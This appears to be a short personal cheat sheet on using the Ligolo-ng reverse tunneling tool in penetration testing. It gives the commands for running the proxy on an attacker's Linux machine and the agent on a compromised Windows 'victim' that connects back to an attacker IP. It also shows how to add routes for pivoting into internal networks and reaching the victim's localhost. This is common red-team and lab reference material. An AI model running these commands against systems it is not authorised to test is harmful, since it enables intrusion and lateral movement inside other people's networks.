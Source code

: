 # Nigolo-ng

Ligolo-NG is a lightweight, fast, and secure reverse tunneling tool, typically used in penetration testing and red teaming to establish a secure connection between a compromised machine and an attacker’s machine. It allows attackers to create a reverse tunnel, enabling access to internal network resources through an encrypted channel. Ligolo-NG is favored for its ease of use and efficiency in bypassing firewalls and NAT (Network Address Translation) to facilitate lateral movement within a target network.

- Download releasse from [github page](https://github.com/nicocha30/ligolo-ng)
- 2 types of assets:
    - ligolo-ng_proxy: attacker machine
    - ligolo-ng_agent: victim machine

## Set up proxy

### Linux machine

```sh
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```

## Linux attack windows

```sh
# Linux
./proxy -selfcert

# windows
./agent.exe -connect <attack-ip>:11601 -ignore-cert 2>&1

# Linux
## on other terminal
### for pivot, use internal network ip victime
sudo ip route add <ip-victime>/<range> dev ligolo
### to access localhost
ip route add 240.0.0.1/32 dev ligolo
### now host of the victime is accessible trought 240.0.0.1

## On ligolo
> session 
    > <number-session>
> start
```
